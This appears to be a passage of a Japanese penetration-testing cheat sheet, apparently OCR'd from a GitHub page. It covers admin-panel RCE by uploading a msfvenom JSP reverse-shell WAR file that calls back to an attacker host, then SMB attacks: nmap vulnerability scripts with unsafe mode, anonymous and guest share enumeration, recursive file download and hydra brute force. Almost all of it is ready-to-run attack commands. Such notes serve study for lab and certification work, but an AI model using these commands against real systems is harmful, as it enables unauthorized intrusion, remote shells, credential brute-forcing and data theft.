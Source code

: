 管理者画面からの RCE

```
#ペイロード作成
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war

#管理者画面でwarファイルをアップロード後、アクセス。
http://<IP>/shell
```

## Port 139,445 (SMB)

### バージョン調査

```
sudo ngrep -i -d tun0 's.?a.?m.?b.?a.*[[:digit:]]'
```

```
smbclient -L //<rhost> -U "" -N
```

### nmap による脆弱性調査

```
nmap -p139,445 --script "smb-vuln-* and not(smb-vuln-regsvc-dos)" --script-args smb-vuln-cve-2017-7494.check-version,unsafe=1 <IP>
```

### 手動チェック

```
smbmap -H <IP>
smbmap -u '' -p '' -H <IP>
smbmap -u 'guest' -p '' -H <IP>
smbmap -u '' -p '' -H <IP> -R
smbmap -u anonymous -p anonymous -H <IP>

enum4linux -a <IP>

smbclient --no-pass -L //<IP>
smbclient -L //<IP> -U anonymous
smbclient //<IP>/<SHARE>

#再帰的なファイルダウンロード
smbclient //<IP>/<SHARE> -U <USER> -c "prompt OFF;recurse ON;mget *"
```

### ブルートフォース

```
hydra -L <userdictionary> -P <passworddictionary> <IP> smb -u -vV
```

### SMB の認証情報を利用したシェルの入手
